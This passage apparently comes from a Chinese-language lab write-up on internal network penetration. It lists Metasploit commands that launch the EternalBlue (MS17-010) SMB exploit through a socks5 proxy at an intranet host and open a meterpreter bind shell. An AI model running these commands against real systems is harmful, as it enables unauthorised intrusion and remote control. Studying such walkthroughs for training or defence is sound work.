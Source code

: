 ![image-20250318145837670](./assets/image-20250318145837670.png)

- 目前第三层内网还存在两个主机`192.168.93.40`和`192.168.93.40`

*****

### 尝试永恒之蓝(2台)

- 进入msfconsole

```cmd
setg Proxies socks5:127.0.0.1:1081
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```
